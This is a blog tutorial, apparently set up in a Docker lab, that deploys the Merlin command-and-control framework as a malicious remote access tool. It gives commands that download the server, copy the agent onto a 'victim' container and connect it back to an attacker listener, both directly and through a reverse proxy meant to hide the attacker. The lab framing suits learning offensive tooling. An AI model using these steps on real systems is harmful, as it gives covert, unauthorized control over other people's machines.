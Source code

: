```yaml
---
title: Time for RAT.
description: Draft
date: 2021-07-02
scheduled: 2021-07-02
layout: layouts/post.njk
tags:
    - posts
---
```


We have our Attacker server ready, we have our Reverse-Proxy ready, and we have encrypted HTTPS communication.
### It's time for our RAT.
A RAT is a Remote Access Tool. They can be used in a number of positive ways like Windows Remote Control or SSH sessions. Our RAT is going to be malicious though. We're going to control our Victim's system from our Attacker and by using a Reverse-Proxy and SSL we'll be masked and hidden, impossible to trace. Well, not really. But it won't be easy! (We'll try that later.)

First let's get our tools.
Download wget and 7zip onto our Attacker:

``` bash 
apt install wget
apt-get install p7zip-full
```

Next let's get ![Merlin](https://github.com/Ne0nd0g/merlin).
Merlin is a cross-platform post-exploitation Command & Control server and agent written in Go.
We'll create a directory for it and unpack it using 7zip, as per instructions on the ![official site](https://merlin-c2.readthedocs.io/en/latest/quickStart/server.html).

``` bash
mkdir /opt/merlin;cd /opt/merlin
wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z
7z x merlinServer-Linux-x64.7z
./merlinServer-Linux-x64
```

![Merlin](/img/remote/merlin.png)

Let's close it for now though, you can do that with `exit` command.

Merlin consists of the server part, which we just saw, and an agent. An agent will sit in our victim, waiting for the server's instructions and executing them. We already have three precompiled agents for each of the big platforms, Windows, Linux and MacOS.
Navigate into `/opt/merlin/data/bin/linux` and you'll find `merlinAgent-Linux-x64`.

Merlin is a post-exploitation framework, meaning it isn't within the scope of the program to get the agent onto our victim. There are plenty ways for that which I won't try to cover. Let's just copy and paste it into our victim.
First, find the Attacker's and Victim's docker container ID's.

``` bash
docker ps 
```
Now we'll copy the agent from our attacker to our desktop and then from our desktop to our victim.

``` bash
docker cp 75566028d8fb:/opt/merlin/data/bin/linux/merlinAgent-Linux-x64 ~/Desktop/merlinAgent-Linux-x64
docker cp ~/Desktop/merlinAgent-Linux-x64 b9d55696b755:/merlinAgent-Linux-x64
```

Now, we're ready! Let's just check out how Merlin server and Agent work together.
Inside attacker start up Merlin. It's worth mentioning that Merlin has tab completion so if you're unsure about the availeable commands just hit TAB and it'll show you.
Let's use HTTP2.

``` bash
listeners
use http2
options
```

We'll see the defaults now. We'll need to change some of them.
![Merlin options](/img/remote/merlin-options1.png)

Let's use the IP of our container and the port 5555 we've specified earlier and start up our listener.

``` bash
set Interface 172.17.0.3
set Port 5555
start
```

Now we have to connect to our listener with our agent.
Go to victim, navigate to where the agent is, and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.3:5555 -psk 'merlin'
```
With the verbose `-v` flag you should see everything the agent is doing, and on the other side, in our Merlin server, you should see the connection.
Now you have a full control over victim from attacker.
Try our a simple `ls` to get a list of files.

![Merlin ls](/img/remote/merlin-ls.png)

Feels good!

Now let's route the commands through our reverse proxy.
Close the agent with a CTRL + C and enter the following:

``` bash
./merlinAgent-Linux-x64 -v -url https://172.17.0.4/merlin -psk 'merlin'
```

This time we're using the IP of our reverse-proxy, and it still connects!